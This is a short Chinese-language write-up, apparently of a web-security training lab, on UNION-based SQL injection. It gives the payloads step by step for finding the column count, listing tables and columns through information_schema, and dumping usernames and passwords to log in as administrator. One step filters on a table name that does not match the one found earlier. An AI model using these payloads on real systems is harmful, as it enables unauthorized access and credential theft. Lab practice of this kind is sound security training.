



# 题意

列出数据库信息，找到administrator的密码并且登录。
# 解题思路
step1:

确定原始查询的列数和数据类型，payload如下：
```
'+UNION+SELECT+'ab','cd'--
```
可以确定列数为2且两列都与string类型兼容

step2:

列出数据表名，payload如下：
```
'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
```
展示出的表名数据较多，目标表名为


step3:
获取users_oiywfu数据表的列的相关数据，payload为：
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='oiywfu'--
```
获取的数据如下：


step4:
找到用户名和密码相关的列名并获取，payload如下：
```
'+UNION+SELECT+username_rzvuhj,+password_flipqf+FROM+users_oiywfu--
```
step5:

找到密码并登录


# 知识点
